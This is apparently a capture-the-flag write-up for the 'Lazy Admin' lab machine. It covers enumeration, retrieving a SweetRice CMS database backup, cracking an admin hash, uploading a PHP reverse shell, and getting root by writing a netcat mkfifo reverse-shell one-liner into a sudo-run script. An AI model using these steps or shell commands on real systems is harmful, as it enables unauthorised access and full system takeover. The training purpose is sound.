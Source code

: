 ```yaml
---
layout: post
permalink: /posts/thm/lazy-admin
title: "Lazy Admin"
---
```


Easy linux machine to practice your skills<br/>

Okay, let's start our enumeration with nmap scan

```
nmap -sC -sV <IP>
```

![nmap](/assets/images/thm/lazy-admin/nmap.png)

There are two open ports, 22 SSH and 80 HTTP. Go and visit the website.

![website](/assets/images/thm/lazy-admin/website.png)

It's Apache landing page. Let's scan for hidden directories with gobuster.

```
gobuster dir -u http://10.10.60.134/ -w SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
```

![gobuster](/assets/images/thm/lazy-admin/gobuster.png)

We have found a directory `content`. It's CMS system called SweetRice. 

![content](/assets/images/thm/lazy-admin/content.png)

I searched for any known vulnerabilities in `https://www.exploit-db.com/` but wasn't sure which of the could help.

![exploit-db](/assets/images/thm/lazy-admin/exploit-db.png)

Let's scan this subdirectory.

```
gobuster dir -u http://10.10.60.134/content -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

![gobuster-content](/assets/images/thm/lazy-admin/gobuster-content.png)

One of the CVE reports is related with the `inc` directories where we'll be able to download the mysql backup. Go and visit this directory.

![mysql-backup](/assets/images/thm/lazy-admin/mysql-backup.png)

Download the mysql backup and see whether we'll be able to find any useful information

![sql](/assets/images/thm/lazy-admin/sql.png)

If you look closely you will find username `manager` with hash `42f749ade7f9e195bf475f37a44cafcb` </br>

I'm going to use `https://crackstation.net/` to crack the password.

![crack](/assets/images/thm/lazy-admin/crack.png)

Good, now we have credentials. Go to `as` subdirectory and try to login.

![as](/assets/images/thm/lazy-admin/as.png)

![welcome](/assets/images/thm/lazy-admin/welcome.png)

Nice, I went back to the exploit db and looked for the apropriate exploit. It's `https://www.exploit-db.com/exploits/40700`. Now from left side menu navigate to Ads. There we'll paste our reverse php code `https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php` this is a good one. Dont forget to set your ip and port

![ads](/assets/images/thm/lazy-admin/ads.png)

Press done button and start a listener on your machine.

```
nc -lvnp 4444
```

Navigate to `<IP>/content/inc/ads/<YOUR_REVERSE_SHELL_FILE_NAME>`

![shell](/assets/images/thm/lazy-admin/shell.png)

Good. Look around the system and find the user flag. </br>

The last thing that we have to do is to escalate our privileges. Let's check whether we are able to execute any commands as root

```
sudo -l
```

![sudo-l](/assets/images/thm/lazy-admin/sudo-l.png)

Let's see what is backup.pl

![backup](/assets/images/thm/lazy-admin/backup.png)

It executes a `copy.sh`

![copy](/assets/images/thm/lazy-admin/copy.png)

It looks that we already have the reverese shell we just need to change the ip

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR-IP> 5554 >/tmp/f" > /etc/copy.sh
```

start netcat listener 

```
nc -lvnp 5554
```

and execute the script

```
sudo /usr/bin/perl /home/itguy/backup.pl
```

![root](/assets/images/thm/lazy-admin/root.png)

Nice, we were able to get root access. Now just find the root flag.